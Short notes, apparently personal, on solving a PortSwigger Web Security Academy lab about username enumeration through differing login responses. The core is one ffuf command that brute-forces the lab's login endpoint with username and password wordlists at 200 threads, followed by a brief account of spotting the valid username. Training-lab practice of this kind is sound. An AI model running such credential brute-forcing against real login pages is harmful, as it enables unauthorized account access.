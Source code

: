 https://portswigger.net/web-security/authentication/password-based/lab-username-enumeration-via-different-responses
---
**Difficulty**: EASY
**CWE-lists**:
- [[CWE-307(improper-restriction-of-excesive-authz-attempts)]]
-----

Then use it for fuzzing, the number of threads, the number after the `-t` flag, may vary from your computer, internet, processor
```sh
ffuf -u https://0a3f00e703cdf11482ceecfe00840074.web-security-academy.net/login -X POST -d "username=W1&password=W2" -w username-list.txt:W1 -w password-list.txt:W2 -ac -c -t 200
```
In this line fuff is detecting automatically a common pattern with the flag `-ac` and the username that start to appear, probably es the correct one, just wait for some clear difference between the others request. There's a name which has a clear distintion.
![[Pasted image 20250321002057.png]]
So i just bruteforce for that one then i nail it
![[Pasted image 20250321002220.png]]